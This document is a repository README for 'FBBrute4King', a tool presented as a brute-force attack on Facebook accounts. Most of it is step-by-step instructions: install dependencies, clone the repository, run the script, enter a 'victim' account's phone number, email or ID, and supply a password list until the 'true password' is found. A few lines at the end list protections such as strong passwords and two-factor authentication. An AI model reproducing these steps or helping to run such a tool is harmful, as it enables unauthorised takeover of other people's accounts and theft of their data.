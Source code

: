 # FBBrute4King
* FBBrute4King  
``` Bruteforce attack for Facebook Account ```
  ** Install Requirements (on Linux) ``` 
>> apt-get install git
 python3 python3-pip python python-pip
 ```  ** Run commands one by one ``` 
>> git clone https://github.com/KingElhakemV3SC/FBBrute4King 
>> cd FBBrute4King 
>> python2 -m pip install requests bs4 
>> python2 -m pip install mechanize
 >> python2 fbhack.py 
>> type the victim account's phone number / email / id .. example : 100004136748473  ( you can find it in the victim page's link )
 >> passwords.txt  then wait for it to give you the true password  ``` 
 ** Protection Against Attacker 
1- Use Strong Password(which contains standard password chars + longest as possible) 
2- Use 2F Authentication.
3- Make location based login(+browser based).
